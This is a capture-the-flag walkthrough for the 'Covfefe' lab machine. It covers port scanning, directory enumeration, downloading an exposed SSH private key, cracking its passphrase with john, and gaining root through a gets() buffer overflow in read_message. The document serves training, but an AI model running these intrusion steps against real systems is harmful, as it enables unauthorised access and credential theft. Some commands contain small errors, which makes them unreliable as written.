



# Covfefe :

## 1 Network Mapping :
### 1.1 Live host :
#### 1.1.1 With ICMP :
First with nmap ping :
````bash
nmap -v -sP 192.168.201.10
````

Return :
````text
Nmap scan report for 192.168.201.10
Host is up (0.12s latency).
````

---

#### 1.1.2 With TCP :
With TCP SYN :
````bash
nmap -v -sP -PS 80 192.168.201.10
````

Return :
````text
Nmap scan report for 192.168.201.10
Host is up (0.12s latency).
````

With hping :
````bash
hping3 -S -c 2 192.168.201.10
````

Return :
**NONE**

---

#### 1.1.3 With ARP :
With arping :
````bash
arping 192.168.201.10
````

Return :
**TIMEOUT**

---

#### 1.1.3 With DNS :
With DNS :
````bash
nmap -sL 192.168.201.10
````

Return :
**NONE**

### 1.2 Identify ports :
#### 1.2.1 TCP ports :
SYN SCAN :
````bash
nmap -sS 192.168.201.10
````

Return :
````text
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
31337/tcp open  Elite
````

Full TCP Scan without ICMP :
````bash
nmap -sT -P0 192.168.201.10
````

Return :
````text
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
31337/tcp open  Elite
````

Scan all TCP PORTS :
````bash
nmap -sS -p1-65535 192.168.201.10
````

Return :
````text
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
31337/tcp open  Elite
````

---

#### 1.2.2 UDP ports :
Scan UDP ports :
````bash
nmap -sU 192.168.201.10
````

Return :
````text
PORT      STATE         SERVICE
21/udp    open|filtered ftp
1484/udp  open|filtered confluent
18255/udp open|filtered unknown
20117/udp open|filtered unknown
20359/udp open|filtered unknown
20791/udp open|filtered unknown
21303/udp open|filtered unknown
21780/udp open|filtered unknown
29243/udp open|filtered unknown
32528/udp open|filtered unknown
58640/udp open|filtered unknown
````

Scan all UDP ports :
````bash
nmap -sU -p1-65535 192.168.201.10
````

---

### 1.3 Banner grabbing :
#### 1.3.1 Manual grabbing :

````bash
nc 192.168.201.10 21
# Refused

nc 192.168.201.10 22
SSH-2.0-OpenSSH_7.4p1 Debian-10

nc 192.168.201.10 80
nginx/1.10.3

nc 192.168.201.10 1484

nc 192.168.201.10 31337
HTTP
`````

#### 1.3.1 Automatic grabbing :

````bash
nmap -sV -sS 192.168.201.10
`````

Return :
````text
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10 (protocol 2.0)
80/tcp    open  http    nginx 1.10.3
31337/tcp open  http    Werkzeug httpd 0.11.15 (Python 3.5.3)
````

#### 1.3.2 HTTP identification :
Port 80 :
````bash
httprint -h 192.168.201.10 -s /usr/share/httprint/signatures.txt
Banner Reported: nginx/1.10.3
Banner Deduced: thttpd
````

Port 31337 :
````bash
httprint -h 192.168.201.10:31337 -s /usr/share/httprint/signatures.txt
Banner Reported: Werkzeug/0.11.15 Python/3.5.3
Banner Deduced: Microsoft-IIS/5.0 Virtual Host, Adaptec ASM 1.1
````

---

### 1.4 OS identification :
#### 1.4.1 Manual identification :
````bash
p0f
nc 192.168.201.10 80
````


#### 1.4.2 Automatic identification :
````bash
nmap -O 192.168.201.10
````

Return :
````text
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
31337/tcp open  Elite
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/10%OT=22%CT=1%CU=35935%PV=Y%DS=2%DC=I%G=Y%TM=5FD25B
OS:C2%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=107%TI=Z%II=I%TS=8)SEQ(SP=F
OS:F%GCD=2%ISR=107%TI=Z%TS=8)OPS(O1=M506ST11NW5%O2=M506ST11NW5%O3=M506NNT11
OS:NW5%O4=M506ST11NW5%O5=M506ST11NW5%O6=M506ST11)WIN(W1=7120%W2=7120%W3=712
OS:0%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M506NNSNW5%CC=Y%Q=)
OS:T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%
OS:T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164
OS:%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
````

### 1.5 Conclusion :

Network :
@IP : 192.168.201.10
@MAC : ?
Same Subnet : No
DNS record : ?

Ports :
| Port   | Protocole   | State | Banner | Transport Protocol |
| ------ | ----------- | ------|---------|---------|
| 22     |  SSH        |  open | SSH-2.0-OpenSSH_7.4p1 Debian-10 | TCP |
| 80     |  HTTP       |  open | nginx/1.10.3 | TCP |
| 31337  |  HTTP       |  open | Werkzeug httpd 0.11.15 (Python 3.5.3) | TCP |

OS :
OS : DEBIAN 10

## 2 Vulnerability assesment :
### 2.1 Search sploit :
Search exploit :
````bash
searchsploit OpenSSH 7.4
OpenSSH 2.3 < 7.7 - Username Enumeration
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading
OpenSSH < 7.7 - User Enumeration (2)

searchsploit nginx 1.10.3
# None

searchsploit Werkzeug
Werkzeug - 'Debug Shell' Command Execution
Werkzeug - Debug Shell Command Execution (Metasploit)
````

---

### 2.1 Vulnerability scan :
With NSE script :
````bash
nmap -sV --script=exploit,vuln,auth,default -p 22,80,31337 -oX /tmp/Covfefe.xml 192.168.201.10
xsltproc /tmp/Covfefe.xml -o /tmp/Covfefe.html
````

Port 22 :


Port 80 :


Port 31337 :


---

#### 2.1.2 port 80 :
With dirb :
````bash
dirb http://192.168.201.10
````

Return :
**NONE**

With nikto :
````bash
nikto -h http://192.168.201.10
````

Return :
````text
+ Server: nginx/1.10.3
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
````

---

#### 2.1.2 port 31337 :
````bash
dirb http://192.168.201.10:31337
````

Return :
````text
+ http://192.168.201.10:31337/.bash_history (CODE:200|SIZE:18)
+ http://192.168.201.10:31337/.bashrc (CODE:200|SIZE:3526)
+ http://192.168.201.10:31337/.profile (CODE:200|SIZE:675)
+ http://192.168.201.10:31337/.ssh (CODE:200|SIZE:43)
+ http://192.168.201.10:31337/robots.txt
````

````bash
nikto -h http://192.168.201.10:31337
````

Return :
````text
+ Server: Werkzeug/0.11.15 Python/3.5.3
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /robots.txt, inode: 1499600596.267103, size: 70, mtime: 1587808388
+ Entry '/.bashrc' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/.profile' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/taxes/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 3 entries which should be manually viewed.
+ Allowed HTTP Methods: OPTIONS, HEAD, GET
+ OSVDB-3093: /.bashrc: User home dir was found with a shell rc file. This may reveal file and path information.
+ OSVDB-3093: /.profile: User home dir with a shell profile was found. May reveal directory information and system configuration.
+ OSVDB-3093: /.ssh: A user's home directory may be set to the web root, an ssh file was retrieved. This should not be accessible via the web.
+ OSVDB-3093: /.ssh/authorized_keys: A user's home directory may be set to the web root, an ssh file was retrieved. This should not be accessible via the web.
````

Try brute force SSH :
````bash
hydra -l root -P /usr/share/wordlists/fasttrack.txt -s 22 192.168.201.10 ssh
ERROR] target ssh://192.168.201.10:22/ does not support password authentication (method reply 4).
````

Strange maybye an ssh key authentification...


Download private SSH key :
````bash
wget http://192.168.201.10:31337/.ssh/id_rsa

# Crack passphrases thank u https://www.abhizer.com/crack-ssh-with-john/ <3
cp $(locate ssh2john.py) .
python ssh2john.py id_rsa > id_rsa.hash
john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
````

I have found passphrase for private key :
````text
starwars         (id_rsa)
````

Try connect :
````bash
ssh -i id_rsa.hash simon@192.168.201.10
passphrase : starwars
simon@covfefe:~$
````

---

## 3 Privilege escalation :
In root directory we can see :
````bash
ls -la /root
total 28
drwxr-xr-x  2 root root 4096 Dec 11 04:18 .
drwxr-xr-x 21 root root 4096 Feb 20  2020 ..
-rw-------  1 root root    0 Feb 28  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-------  1 root root   75 Jul  9  2017 flag.txt
-rw-r--r--  1 root root  148 Aug 18  2015 .profile
-rw-r--r--  1 root root   33 Dec 11 04:18 proof.txt
-rw-r--r--  1 root root  767 Jul  9  2017 read_message.c
````
Check **read_message.c** :
````bash
cat /root/read_message.c
````

Return :
````c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// You're getting close! Here's another flag:
// flag2{use_the_source_luke}

int main(int argc, char *argv[]) {
    char program[] = "/usr/local/sbin/message";
    char buf[20];
    char authorized[] = "Simon";

    printf("What is your name?\n");
    gets(buf);

    // Only compare first five chars to save precious cycles:
    if (!strncmp(authorized, buf, 5)) {
        printf("Hello %s! Here is your message:\n\n", buf);
        // This is safe as the user can't mess with the binary location:
        execve(program, NULL, NULL);
    } else {
        printf("Sorry %s, you're not %s! The Internet Police have been informed of this violation.\n", buf, authorized);
        exit(EXIT_FAILURE);
    }

}
````

This is buffer overflow !

Check binary :
````bash
ls /usr/local/bin/
````

Return :
````
read_message
````

Buffer overflow :
````bash
read_message
What is your name?
Simonaaaaaaaaaaaaaaa/bin/sh
Hello Simonaaaaaaaaaaaaaaa/bin/sh! Here is your message:

# whoami
root
`````

It's simple in **read_message.c** we have a buffer with a size of 20 char.
The binary check if i am Simon so Simon == 5 char
And after I had 15 a == aaaaaaaaaaaaaaa

So 5 + 15 = 20
The buffer is full
And after I execute /bin/sh
And I am root ! :D

## 4 Flags :
Premier flag :
````bash
cat /home/simon/local.txt
029bd61ed41afc4f7a1dfda333e692ae
````

Deuxième flag :
````bash
cat /root/proof.txt
75436a3506be41eca010830b8c73d52c
````